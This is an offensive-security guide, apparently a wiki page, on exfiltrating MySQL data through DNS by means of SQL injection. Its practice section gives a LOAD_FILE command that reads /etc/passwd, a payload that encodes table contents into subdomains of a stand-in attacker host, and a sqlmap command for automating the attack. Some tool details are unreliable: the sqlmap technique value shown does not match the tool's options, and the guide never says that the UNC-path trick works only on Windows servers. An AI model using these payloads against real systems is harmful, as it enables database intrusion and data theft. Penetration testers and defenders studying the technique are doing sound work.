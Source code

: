 ```yaml
---
title: DNS Exfiltration via SQL Injection Techniques
description: Learn how to exfiltrate data through DNS in MySQL using SQL injection.
keywords:
- DNS exfiltration
- SQL injection
- MySQL LOAD_FILE
- out-of-band
- data exfiltration
---
```


# DNS Exfiltration

## Context

The goal of this guide is to provide a comprehensive understanding of DNS exfiltration using an SQL injection technique, specifically with MySQL databases. Readers are expected to be familiar with DNS protocols, data exfiltration methods, and MySQL's out-of-band SQL injection techniques. This guide is focused on the offensive security aspect, detailing how data can be extracted via DNS mechanisms.

## Theory

### DNS Exfiltration via SQL Injection

DNS exfiltration is a sophisticated technique used to extract data by encoding it into DNS queries. This method exploits the capability of a system to make external DNS requests through SQL queries, allowing an attacker to retrieve data by crafting DNS queries that encode sensitive information. When these queries are sent, they are directed to a DNS server controlled by the attacker, thus leaking the data in the process.

### MySQL LOAD_FILE Function

The `LOAD_FILE` function in MySQL is designed to read a file from the server's filesystem and return its contents. Although legitimate in many use cases, this function becomes a vulnerability when abused. If the database user possesses FILE privileges, an attacker can exploit this feature to read and subsequently exfiltrate sensitive files.

### Out-of-Band (OOB) SQL Injection

Out-of-Band SQL injection is a variant of SQL injection where the attacker sends data to an external server, effectively bypassing direct response channels between the client and the server. This is achieved by inserting SQL payloads that trigger outbound interactions, such as DNS requests. This technique is particularly useful when direct data retrieval through conventional response channels is restricted or closely monitored.

## Practice

### DNS Exfiltration via MySQL LOAD_FILE

- **Identify a Vulnerable MySQL Instance**: Ensure the MySQL instance has FILE privileges enabled to exploit the `LOAD_FILE` function.
  
- **Read Sensitive Files Using LOAD_FILE**:
  ```bash
  SELECT LOAD_FILE('/etc/passwd');
  ```
  By issuing the above command, you gain access to the file specified within the server's file system.

- **Craft the SQL Injection Payload**: Create a payload that encodes the desired data into DNS queries. The payload can be structured to exfiltrate information to a controlled DNS server.
  ```sql
  SELECT LOAD_FILE(CONCAT('\\\\', (SELECT SUBSTRING(data, 1, 63) FROM sensitive_table), '.attacker.com\\'));
  ```
  This SQL query appends the captured data as a subdomain of a DNS name controlled by the attacker, enabling exfiltration.

**Result**: Successful execution of this technique will result in sensitive data being exfiltrated via DNS queries sent to a server controlled by an attacker.

### Automated DNS Exfiltration Tooling

- **Utilize Tools for Automation**: Tools like sqlmap facilitate the automation of DNS exfiltration through SQL injection.
  
- **Execute the Automated Command**:
  ```bash
  sqlmap --url='http://target.com/vuln.php?id=1' --dns-domain='attacker.com' --technique=OOB
  ```
  This command automates the process of finding and exploiting SQL injection vulnerabilities to exfiltrate data via DNS.

**Result**: The automated execution results in efficient and scalable data exfiltration through DNS queries, using SQL injection techniques.

## Tools

- **sqlmap**: This tool is essential for automating the detection and exploitation of SQL injection vulnerabilities, including those allowing out-of-band communication via DNS queries. It streamlines the process of exfiltrating data by handling complex payload formation and network interactions.